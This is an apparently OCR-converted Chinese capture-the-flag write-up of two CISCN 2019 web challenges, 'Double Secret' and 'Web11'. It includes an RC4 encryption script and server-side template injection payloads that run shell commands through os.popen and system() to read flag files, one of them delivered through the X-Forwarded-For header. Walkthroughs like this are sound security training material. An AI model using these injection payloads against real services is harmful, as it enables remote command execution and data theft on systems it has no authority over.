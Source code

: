 ﻿5\.5

` `[CISCN 2019华东南]Double Secret

用御剑扫描出三个目录/secret，/robots.txt，/console目录

根据题目进入/secret

![](Aspose.Words.80d6ed3d-b103-4800-895b-062364505ad2.001.png)

尝试get注入

![](Aspose.Words.80d6ed3d-b103-4800-895b-062364505ad2.002.png)

发现存在注入 瞎注后

![](Aspose.Words.80d6ed3d-b103-4800-895b-062364505ad2.003.png)

发现源码泄露 ，rc有rc4解密,网搜一个rc4加密脚本

import base64
from urllib.parse import quote


def rc4\_main(key="init\_key", message="init\_message"):
`    `# print("RC4加密主函数")
`    `s\_box = rc4\_init\_sbox(key)
`    `crypt = str(rc4\_excrypt(message, s\_box))
`    `return crypt


def rc4\_init\_sbox(key):
`    `s\_box = list(range(256))  # 我这里没管秘钥小于256的情况，小于256不断重复填充即可
`    `# print("原来的 s 盒：%s" % s\_box)
`    `j = 0
`    `for i in range(256):
`        `j = (j + s\_box[i] + ord(key[i % len(key)])) % 256
`        `s\_box[i], s\_box[j] = s\_box[j], s\_box[i]
`    `# print("混乱后的 s 盒：%s"% s\_box)
`    `return s\_box


def rc4\_excrypt(plain, box):
`    `# print("调用加密程序成功。")
`    `res = []
`    `i = j = 0
`    `for s in plain:
`        `i = (i + 1) % 256
`        `j = (j + box[i]) % 256
`        `box[i], box[j] = box[j], box[i]
`        `t = (box[i] + box[j]) % 256
`        `k = box[t]
`        `res.append(chr(ord(s) ^ k))
`    `# print("res用于加密字符串，加密后是：%res" %res)
`    `cipher = "".join(res)
`    `print("加密后的字符串是：%s" % quote(cipher))
`    `# print("加密后的输出(经过编码):")
`    `# print(str(base64.b64encode(cipher.encode('utf-8')), 'utf-8'))
`    `return str(base64.b64encode(cipher.encode('utf-8')), 'utf-8')


\# rc4\_main("key", "text") 密钥，恶意代码

然后不会了，baidu…

<https://blog.csdn.net/weixin_53090346/article/details/125910763>

payload: {{config.\_\_class\_\_.\_\_init\_\_.\_\_globals\_\_['os'].popen('cat /flag.txt').read()}}

rc4加密后传入得到flag

![](Aspose.Words.80d6ed3d-b103-4800-895b-062364505ad2.004.png)

[CISCN 2019华东南]Web11

![](Aspose.Words.80d6ed3d-b103-4800-895b-062364505ad2.005.png)

看到xff想到xff欺骗

用burp 抓包后结合标签ssti

构造xxf7\*7 得ip=49发现漏洞

![](Aspose.Words.80d6ed3d-b103-4800-895b-062364505ad2.006.png)

Payload:xxf:{system(‘cat /flag’)}

![](Aspose.Words.80d6ed3d-b103-4800-895b-062364505ad2.007.png)

得到flag
